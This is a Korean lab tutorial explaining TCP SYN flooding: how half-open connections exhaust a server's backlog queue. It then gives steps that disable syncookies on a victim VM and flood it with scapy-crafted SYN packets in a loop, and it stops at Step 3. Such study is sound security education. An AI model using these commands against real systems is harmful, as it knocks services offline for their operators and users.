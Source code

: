 ```yaml
---
sort: 3
---
```


# TCP SYN Flooding

<center><img src = "https://user-images.githubusercontent.com/76420201/106401723-fbdeef80-6468-11eb-80f2-9ee8eaece9d6.jpg"></center>


TCP/IP 네트워크에서의 정상적 TCP 연결 3-way handshake 과정의 경우, 클라이언트가 원격지 서버의 특정 포트에 SYN패킷(packet)을 발송함으로써 연결을 요청하고 요청을 받은 원격 서버가 SYN/ACK 패킷으로 응답한 후 수신된 연결 요청 정보를 해당 시스템 TCP 연결 자원인 Backlog Queue내 incomplete connection queue에 저장한다.

이때 서버가 응답한 SYN+ACK에 대하여 클라이언트가 ACK로써 응답을 보내지 않으면 accept()시스템 콜을 통해 클라이언트와 통신할 연결소켓을 생성하지 못하므로 서버는 incomplete connetion queue에 있던 연결 요청 정보를 수행하지 못하고 그대로 남아있다는 **half-open TCP** 연결 상태에 머무르는 구조적 취약점이 있다.

Attacker(공격자)는 이 취약점을 이용한 서비스 거부(Dos)를 유발하는 공격을 위해서 서버 특정 포트에 SYN packet을 발송하는 과정을 대량으로 중첩시켜 Backlog Queue내 incomplete connetion queue를 가득 채움으로써 소진시키게 되고 이로인해 더 이상 새로운 클라이언트의 TCP 연결요청을 받을 수 없게 되어 이 후 요청되는 다수의 TCP 연결이 완료되지 않고 무시된다.

```note
백로그 큐가 꽉 차게 되면 더 이상 연결요청을 받을 수 없어 정상적인 서비스 제공이 불가능한 상태가 된다.

클라이언트의 응답 문자(ACK)가 없으면 서버에서는 클라이언트의 접속 정보를 잠시 운용 기록에 쌓아 두는데, 이러한 요구가 증가했을 경우 시스템은 운용기록 공간을 확보하기 못하게 되고, 결국 네트워크 중단으로 이어여 Dos가 일어난다.

TCP 통신 연결 수립을 위한 3way-handshake 특성을 이용하여 클라이언트에서 SYN 정보만 전송 후, SYN/ACK 정보 수신에 따른 ACK전송을 하지 않음으로써 서버를 장시간 대기상태로 만들어 리소스를 점유하는 전형적인 SYN Flooding 공격 유형이다.
```

## 공격과정

**Step 1. Victim 가상머신에서 syncookie 사용을 확인 후 사용을 해제**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -a | grep syncookies
'net.ipv4.tcp_syncookies = 1'
```

syncookie를 사용하면 backlog que가 가득 차 있어도 정보를 계속 쌓을 수 있다. 실습을 위해서 Victim의 syncookie를 해제한다.

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w  net.ipv4.tcp_syncookies=0		
'net.ipv4.tcp_syncookies = 0'	
```

---

**Step 2. TCP syn flooding 공격**

```
┌──(kali㉿kali)-[~]
└─$ sudo scapy   
```

```
>>> tcp = TCP()
>>> tcp.dport = 80
>>> tcp.sport = RandNum(1024, 65535)
>>> tcp.flags = 'S'
>>> ip = IP()
>>> ip.dst = '192.168.94.133'
>>> syn = ip / tcp
>>> syn.show()

>>> send(syn, loop=True)
```

**Step 3. Victim 가상머신에서 네트워크 상태 확인**